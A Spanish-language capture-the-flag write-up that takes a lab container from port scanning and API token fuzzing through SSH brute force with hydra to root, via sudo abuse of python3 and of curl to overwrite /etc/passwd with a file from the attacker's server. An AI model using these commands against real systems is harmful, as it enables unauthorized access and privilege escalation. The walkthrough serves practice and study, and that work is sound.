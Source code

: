 Desplegamos en contenedor y nos indica que la máquina víctima tiene la IP-->172.17.0.2

Vamos a comprobar trazabilidad:
```bash
ping -c 1 172.17.0.2
```
```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.085 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.085/0.085/0.085/0.000 ms
```
un paquete transmitido, uno recibido, cero perdidos.

## FASE DE ENUMERACIÓN

Escaneamos puertos abiertos, así como los servicios que corren por ellos y sus versiones por si son vulnerables
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 19:f1:08:79:13:c4:42:b8:6c:c8:a3:3e:f5:39:a3:59 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLJ6c9b2FZ+2/lQs+7H8j9Vkf83is1rphGqioHJ5Udw/zuClnjeZCCWS3dDNfsWKsmC4bDpP+fbL5p7z3Vpj5z0=
|   256 9b:93:02:4e:d2:08:f7:d7:eb:90:48:e4:48:17:1b:f5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILi2T2o/qZXjV7oo43koui/mZwrmfb2NgDELa++lV/sJ
5000/tcp open  http    syn-ack ttl 64 Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: \xC2\xBFQu\xC3\xA9 es una API?
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
```

-Puerto 22 SSH versión 9.2 no vulnerable, sin credenciales, lo descartamos

-Puerto 5000 http, nos vamos a centrar en él

Lanzamos un whatweb, por si nos reporta algo interesante

```bash
whatweb http://172.17.0.2:5000
```
```
http://172.17.0.2:5000 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[172.17.0.2], Python[3.11.2], Title[¿Qué es una API?], Werkzeug[2.2.2]
```

entro en la página y miro el código fuente sin ver nada interesante, leyendo la página supongo que hay un directorio "api" y hago fuzzing desde el mismo
```bash
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  "http://172.17.0.2:5000/api/FUZZ"
```
```
000000188:   401        3 L      5 W        31 Ch       "users"   
```

me mueve al mismo, y es como que no estuviera autorizado, en la página principal puedo ller esto:

```
Para obtener la lista de usuarios autenticándote con un token, puedes usar:

curl -H "Authorization: Bearer password_secreta" http://localhost:5000/api/directorio_oculto
```

así pués hago un fuzzing con un diccionario en la cabecera:
```bash
wfuzz -c --hc=404 --hh=31 -w /usr/share/wordlists/rockyou.txt  -H "Authorization: Bearer FUZZ" "http://172.17.0.2:5000/api/users"
```
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000028:   200        10 L     14 W       89 Ch       "password1"
```

teniendo ya el token lanzo un curl:
```bash
curl -H "Authorization: Bearer password1" "172.17.0.2:5000/api/users"
```
```
[
  {
    "id": 1,
    "nombre": "bob"
  },
  {
    "id": 2,
    "nombre": "dylan"
  }
]

```
tenemos dos user, bob y dylan, nos hacemos un diccionario con ambos y vamos a lanzar un ataque de fuerza bruta al puerto 22 dónde corre SSH

## FASE DE INTRUSIÓN

Lanzamos un ataque de fuerza bruta con hydra al puerto 22 dónde corre SSH:
```bash
hydra -L nombres.txt  -P /usr/share/wordlists/rockyou.txt -t 16 -V -f -I ssh://172.17.0.2
````
```
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "password1" - 28 of 28688799 [child 6] (0/1)
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "soccer" - 29 of 28688799 [child 12] (0/1)
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "anthony" - 30 of 28688799 [child 14] (0/1)
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "friends" - 31 of 28688799 [child 5] (0/1)
[22][ssh] host: 172.17.0.2   login: bob   password: password1
```

ahora nos conectamos por SSH:
```bash
 ssh bob@172.17.0.2
```
cuando nos pide la contraseña introducimos: password1

## ESCALADA DE PRIVILEGIOS

Lanzamos un cat al /etc/passwd para ver los usuarios:
```bash
cat /etc/passwd | grep sh$
```
```
root:x:0:0:root:/root:/bin/bash
balulero:x:1000:1000:balulero,,,:/home/balulero:/bin/bash
bob:x:1001:1001:bob,,,:/home/bob:/bin/bash
```
miramos si estamos en algún grupo privilegiado con id y no, miramos con printenv si hay algo en la variable de entorno y tampoco,
miramos con sudo -l si tenemos algún privilegio
```bash
sudo -l
```
```
Matching Defaults entries for bob on 9ea8319d3a14:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bob may run the following commands on 9ea8319d3a14:
    (balulero) NOPASSWD: /usr/bin/python3
```
y podemos ejecutar como usuario balilero python 3, miramos el binario en 
```
https://gtfobins.github.io/gtfobins/python/
```
y nos dice que con sudo, se puede abusar de esta manera:
```
sudo python -c 'import os; os.system("/bin/sh")'
```
lo ajustamos:
```bash
sudo -u balulero /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

Ya somos el usuario balulero,
miramos con sudo -l:
```bash
sudo -l
```
```
Matching Defaults entries for balulero on 9ea8319d3a14:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User balulero may run the following commands on 9ea8319d3a14:
    (ALL) NOPASSWD: /usr/bin/curl
```
y podemos usar curl con cualquier usuario incluido root, miramos en :
```
https://gtfobins.github.io/gtfobins/curl/#sudo
```
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Fetch a remote file via HTTP GET request.

URL=http://attacker.com/file_to_get
LFILE=file_to_save
sudo curl $URL -o $LFILE
```
podemos subir a la maquina victima un archivo como root, lo más facil es cambiar los privilegios en el /etc/passwd
hacemos un cat del original y nos hacemos uno nuevo quedando así:
```
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balulero:x:1000:1000:balulero,,,:/home/balulero:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bob:x:1001:1001:bob,,,:/home/bob:/bin/bash
```
montamos un servidor en nuestra máquina atacante dónde tenemos el archivo modificado de passwd:
```bash
sudo python3 -m http.server 80
```
y ahora en la máquina victima introducimos lo siguiente:

```
URL=http://172.17.0.1/passwd #dónde el 172.17.0.1 es nuestra ip atacante con el archivo modificado passwd
LFILE=/etc/passwd # el archivo que vamos a reemplazar, cómo queremos guardar el archivo que bajamos
sudo -u root /usr/bin/curl $URL -o $LFILE # como root bajamos el archivo y lo guardamos
```
```
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1187  100  1187    0     0   243k      0 --:--:-- --:--:-- --:--:--  289k
```
hacemos un cat para ver que ha sido modificado
```bash
cat /etc/passwd
```
```
root::0:0:root:/root:/bin/bash
```
habiendo quitado la "x" ya solo nos queda :
```bash
su root
```
```
root@9ea8319d3a14:/home/bob# is
bash: is: command not found
root@9ea8319d3a14:/home/bob#
```
